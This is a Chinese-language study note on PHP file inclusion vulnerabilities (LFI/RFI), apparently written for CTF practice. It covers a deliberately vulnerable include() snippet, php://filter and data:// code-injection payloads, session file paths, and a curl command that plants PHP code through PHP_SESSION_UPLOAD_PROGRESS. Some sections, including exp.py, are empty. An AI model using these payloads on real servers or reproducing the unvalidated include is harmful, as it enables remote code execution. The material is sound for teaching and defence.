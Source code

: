 # PHP 文件包含漏洞

把可重复使用的函数写入到单个文件中，在使用该函数时，直接调用此文件，无需再次编写函数。这一过程被称为包含。

`include()`
`include_once()`
`require()`
`require_once()`

在通过 PHP 函数引入文件时，如果传入的文件名没有经过合理的校验，从而操作了预想之外的文件，就可能导致意外的文件泄露甚至恶意的代码注入。

文件包含漏洞分为两个类型，分别本地文件包含（Local File Inclusion，LFI）和远程文件包含（Remote File Inclusion，RFI）

> 文件包含的文件无须是`php`后缀，只要文件内容符合PHP语法规范，任何扩展名都可以执行

```php
<?php
$file = $_GET['file'];
include($file);
```

## PHP 封装伪协议

PHP 带有很多内置 URL 风格的封装协议，可用于类似 fopen()、 copy()、 file_exists() 和 filesize() 的文件系统函数，[了解更多](https://www.php.net/manual/zh/wrappers.php)

`file`

### php://filter

```
php://filter/read=convert.base64-enccode/resource=
```

### data://

```url
?file=data://text/plain,<?php phpinfo();?>
?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8+
//data:text/plain
```

### input://

### phar://

### zip://

```
?file=zip://./foo.zip#bar.txt
?file=phar://my.phar/somefile.php
```

> `phar://`读取phar文件时，会反序列化meta-data储存的信息

### convert.iconv:// and dechunk://

## 文件包含漏洞利用

- 包含上传的含有 PHP 代码的任意类型文件，比如图片木马
- 包含 session 文件

> 默认存放路径`/var/`
> phpinfo信息中，php.ini，PHP代码
session.save_path

- 包含服务器日志
- 读取服务器敏感文件

## 泄露文件内容

#### PHP FILTER CHAINS: FILE READ FROM ERROR-BASED ORACLE

<https://github.com/synacktiv/php_filter_chains_oracle_exploit/>

## LFI2RCE

### PHP 过滤器实现任意内容生成

### session 文件包含

```
/tmp/sess_<id>
/tmp/sessions/sess_<id>
/var/lib/php/sess_<id>
/var/lib/php/sessions/sess_<id>
/var/lib/php<version>/sess_<id>
/var/lib/php<version>/sessions/sess_<id>
...
```

### `PHP_SESSION_UPLOAD_PROGRESS`

PHP_SESSION_UPLOAD_PROGRESS 是 PHP 中用于处理文件上传进度的特性，主要用于监控用户上传文件时的进度信息。

`session.upload_progress.enabled`默认启用。
`session.upload_progress.cleanup`默认启用，上传完成后会立即清除进度信息。

```html
<form action="http://localhost:13454/upload.php" method="post" enctype="multipart/form-data">
    <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="123" />
    <input type="file" name="file" />
    <input type="submit" value="上传文件" />
</form>
```

<https://github.com/orangetw/My-CTF-Web-Challenges/blob/master/hitcon-ctf-2018/one-line-php-challenge/exp_for_php.py>

```bash
curl http://<IP>:<PORT> --cookie 'PHPSESSID=test' -F 'PHP_SESSION_UPLOAD_PROGRESS=<PHP_CODE>' -F 'file=@junk_file'
```

```
upload_progress_<PHP_CODE>|a:5:{s:10:”start_time”;i:1623754711;s:14:”content_length”;i:342;s:15:”bytes_processed”;i:342;s:4:”done”;b:1;s:5:”files”;a:1:{i:0;a:7:{s:10:”field_name”;s:4:”file”;s:4:”name”;s:9:”junk_file”;s:8:”tmp_name”;s:14:”/tmp/phpAelEHl”;s:5:”error”;i:0;s:4:”done”;b:1;s:10:”start_time”;i:1623754711;s:15:”bytes_processed”;i:17;}}}
```

`exp.py`:

```python
```

- [第五空间 2021]EasyCleanup
- QAQ_1inclu4e

<https://d4rkstat1c.medium.com/mr-burns-hackthebox-writeup-c06f90a22fa9>

## 练习题

- ACTF2020 新生赛 Include
- [羊城杯 2020]Easyphp2

## 参考资料

- <https://github.com/D35m0nd142/LFISuite>
